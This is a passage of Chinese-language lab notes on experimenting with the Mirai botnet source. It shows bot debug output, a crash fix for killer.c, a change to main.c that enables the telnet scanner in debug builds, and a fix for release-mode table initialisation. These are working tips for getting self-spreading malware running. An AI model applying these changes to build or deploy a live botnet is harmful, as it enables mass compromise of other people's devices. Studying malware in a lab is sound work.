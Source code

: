 ```
[main] Connected to CNC. Local address = -335435584
[killer] Detected we are running out of `/Mirai/mirai/debug/mirai.dbg`
[killer] Memory scanning processes
[table] Tried to access table.11 but it is locked
Got SIGSEGV at address: 0x0
```
其中显示想使用 table.11 ，但是并没有解密，这里应该修改 killer.c的 172 行，在后面加入 table_unlock_val(TABLE_KILLER_STATUS);，在 185 行后面加入 table_lock_val(TABLE_KILLER_STATUS);，重新编译运行，这个报错就会消失。

## Bot 的扫描

在 debug 模式下，是观察不到扫描现象的，这是因为源码在 debug 模式中关闭了扫描功能。相关代码在 main.c 中。

```
#ifndef DEBUG
    if (fork() > 0)
        return 0;
    pgid = setsid();
    close(STDIN);
    close(STDOUT);
    close(STDERR);
#endif

    attack_init();
    killer_init();
#ifndef DEBUG
#ifdef MIRAI_TELNET
    scanner_init();
#endif
#endif
```
可以看到，不是 debug 模式的时候，才会初始化扫描器，所以将 #ifndef DEBUG和#endif注释掉，重新编译，即可开启扫描功能。

## table 初始化的启动方式

实验时一般使用 debug 模式编译和实验，但是如果使用 release 版本，就会发现不稳定，甚至无法成功，
这是因为 debug 和 release 的初始化方式和控制方式不一样，release 采用信号控制，并且在函数入口的寻找上做了混淆，
主要函数是 unlock_tbl_if_nodebug，如果使用 release 版本，可以做一下修改：

```
#ifndef DEBUG
    (obf_funcs[fold])();
    matches = util_strcmp(argv0, buf_dst);
    util_zero(buf_src, sizeof (buf_src));
    util_zero(buf_dst, sizeof (buf_dst));
    return matches;
#else
    table_init();
    return TRUE;
#endif
```
